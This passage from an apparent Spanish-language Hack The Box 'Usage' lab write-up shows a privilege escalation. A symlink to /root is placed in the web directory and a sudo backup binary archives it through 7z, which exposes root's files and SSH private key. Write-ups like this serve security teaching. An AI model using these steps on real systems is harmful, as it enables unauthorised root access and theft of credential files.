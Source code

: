 Bueno, lo que podemos hacer es crear un enlace simbólico que apunte al directorio `/root` y así logremos ver su contenido en el `backup`. [Aquí](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#cron-using-a-script-with-a-wildcard-wildcard-injection){:target="_blank"} nos explican cómo es esto posible por los parámetros usados por `7z`.

Primero creamos el enlace simbólico.

```bash
ln -s /root /var/www/html/root
```

Ahora ejecutamos el binario y elegimos la opcción 1.

```bash
sudo /usr/bin/usage_management

Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 
```

Por último descomprimimos la copia de seguridad.

```bash
7za x -y /var/backups/project.zip -o/tmp/.root root
```

Ahora nos podemos dirigir a esa ruta y vemos el contenido que hay en el directorio del usuario `root` y así podemos ver la última `flag` e incluso su `id_rsa`.

![](/assets/img/HTB-Usage/7_Usage.png)
